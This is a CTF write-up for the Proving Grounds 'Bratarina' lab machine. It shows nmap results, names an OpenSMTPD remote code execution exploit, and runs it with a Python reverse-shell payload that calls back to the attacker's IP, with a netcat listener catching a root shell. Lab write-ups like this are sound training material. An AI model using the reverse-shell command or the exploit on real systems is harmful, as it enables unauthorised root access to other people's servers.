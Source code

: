 ```yaml
---
title: "Proving grounds Play: Bratarina"
layout: post
date: 2023-10-05 02:00
categories: writeup
---
```


Proving grounds Practice - Bratarnia CTF writeup.

## Nmap

```text
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dbdd2cea2f85c589bcfce9a338f0d750 (RSA)
|   256 e3b765c2a78e4529bb62ec301aebed6d (ECDSA)
|_  256 d55b795bce48d85746db594fcd455def (ED25519)
25/tcp  open  smtp        OpenSMTPD
| smtp-commands: bratarina Hello nmap.scanme.org [192.168.45.212], pleased to meet you, 8BITMIME, ENHANCEDSTATUSCODES, SIZE 36700160, DSN, HELP
|_ 2.0.0 This is OpenSMTPD 2.0.0 To report bugs in the implementation, please contact bugs@openbsd.org 2.0.0 with full details 2.0.0 End of HELP info
80/tcp  open  http        nginx 1.14.0 (Ubuntu)
|_http-title:         Page not found - FlaskBB        
|_http-server-header: nginx/1.14.0 (Ubuntu)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: COFFEECORP)
Service Info: Host: bratarina; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 25/tcp  open  smtp - OpenSMTPD

The service OpenSMTPD is vulnerable to [OpenSMTPD 6.6.1 - Remote Code Execution](https://www.exploit-db.com/exploits/47984) vulnerability.

## Foothold

```sh
naveenj@hackerspace:|22:38|~/proving_grounds/Bratarina/exploits$ python3 exploit.py 192.168.192.71 25 'python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.45.212\",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")"'
[*] OpenSMTPD detected
[*] Connected, sending payload
[*] Payload sent
[*] Done

naveenj@hackerspace:|22:37|~/proving_grounds/Bratarina/exploits$ nc -lvnp 80
listening on [any] 80 ...
connect to [192.168.45.212] from (UNKNOWN) [192.168.192.71] 34894
root@bratarina:~# 
```

**Foothold Obtained**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).